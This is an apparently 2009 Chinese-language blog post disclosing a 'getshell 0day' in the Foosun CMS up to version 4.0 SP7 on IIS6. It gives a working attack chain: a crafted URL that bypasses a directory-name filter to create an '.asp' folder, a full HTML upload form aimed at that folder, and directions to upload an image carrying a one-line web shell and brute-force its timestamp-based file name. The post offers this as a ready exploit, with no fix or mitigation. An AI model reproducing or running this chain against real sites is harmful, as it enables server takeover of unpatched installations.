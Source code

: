 ```yaml
---
title: 风讯 4.0 SP7 getshell 0day
description: 风讯4.0SP7getshell0day来源：0KEE发现者：bloodsword、bink，转载请无视影响版本：风讯<=4.0sp7，前面的版本没去看，估计也能日。利用条件，开启了文件上传功能，iis6环境。
date: 2009-08-11 10:53:22
category: 漏洞信息
tags: ['0day', '漏洞信息']
post_id: 937
alias: foosun-4.0-SP7-getshell-0day
ViewNums: 3110
---
```


[风讯 4.0 SP7 getshell 0day](/blog/foosun-40-sp7-getshell-0day)

来源：[0KEE](http://www.0kee.com/read.php?tid-1041.html)

发现者：bloodsword、bink，转载请无视
影响版本：[风讯 <=4.0 sp7](/blog/foosun-40-sp7-getshell-0day)，前面的版本没去看，估计也能日。
利用条件，开启了文件上传功能，iis6环境。

漏洞描述：建立目录的地方，名称过滤上有失误，导致可以绕过过滤建立一个.asp目录
首先注册个账号访问http://www.bbb.com/User/CommPages /FolderImageList.asp?f_UserNumber=06150583700&Type=AddFolder& Path=/userfiles/06150583700/aaa.asp//&CurrPath=/userfiles /06150583700其中这个06150583700是你的userid，登录了直接可以看到，建立一个.asp目录

因为风讯浏览目录的地方也过滤了.，所以建立的子目录进不去。本地构造表单：

```
<form name="FileForm" method="post" enctype="multipart/form-data" action="http://www.bbb.com/User/Commpages/UpFileSave.asp?Path=/userfiles/06150583700/aaa.asp">    <input type="hidden" name="AutoReName" value="2"><br>    <input type="hidden" name="Path" value="/userfiles/06150583700/aaa.asp">    <input type="file" size="20" name="File1">    <input type="hidden" name="FilesNum" value="1">    <input type="submit" id="BtnSubmit" name="Submit" value=" 确 定 ">    <input type="reset" id="ResetForm" name="Submit3" value=" 重 填 "></form>
```

传个夹带一句话的图片上去
恶心的地方来了，传上去的文件名是日期+时间+5位随机数（可能是4位3位2位1位，反正最大5位），这个我跟bink研究了半天，没有办法看到-_-，用管中窥豹有个暴力猜接上传路径的功能，先在正常目录里上传个文件，卡一下本地跟远程的时间差，然后传到.asp目录里，把秒数误差控制在3秒以内，开始跑吧~~然后自己该干嘛干嘛去,RP过关的话几个小时内应该能出结果-_-

